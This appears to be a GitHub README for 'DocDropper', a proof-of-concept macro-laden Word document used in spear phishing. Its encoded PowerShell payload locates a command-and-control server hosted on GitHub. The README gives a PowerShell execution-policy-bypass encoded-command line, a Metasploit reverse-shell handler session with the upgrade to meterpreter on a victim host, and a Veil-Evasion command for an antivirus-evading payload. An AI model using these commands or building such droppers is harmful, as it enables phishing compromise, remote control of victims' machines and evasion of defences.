 ## DocDropper
#### Reboot Spear Phishing

DocDropper is a Proof Of Concept of a DOC file who run a payload like a meterpreter, empire, etc.
Indeed, DocDropper use a PowerShell Dynamic Generation Algorithm to find his C&C hosted on Github.com.

Begin by `./dropper/vector.payload.ps1` : This is the encoded payload in the active Macro.

#### Debug mode
```
powershell.exe -ExecutionPolicy Bypass -encodedCommand ([Convert]::ToBase64String(([System.Text.Encoding]::Unicode.GetBytes((Get-Content ./vector.payload.ps1)))))
```
#### Cmd.exe to Meterpreter
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.0.21
LHOST => 192.168.0.21
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.0.21:4444 
[*] Starting the payload handler...
msf exploit(handler) > [*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.0.19
[*] Command shell session 1 opened (192.168.0.21:4444 -> 192.168.0.19:59134) at 2015-10-29 22:35:53 +0100

msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  1   shell windows               192.168.0.21:4444 -> 192.168.0.19:59134 (192.168.0.19)

msf exploit(handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse handler on 192.168.0.21:4433 
[*] Starting the payload handler...
[-] Powershell is not installed on the target.
[*] Command stager progress: 1.66% (1699/102108 bytes)
[*] Command stager progress: 3.33% (3398/102108 bytes)
[...]
[*] Command stager progress: 99.78% (101888/102108 bytes)
[*] Command stager progress: 100.00% (102108/102108 bytes)
```
#### Veil-Evasion Meterpreter
```
veil-evasion -p c/meterpreter/rev_tcp -c LHOST=192.168.0.21 LPORT=4444
```
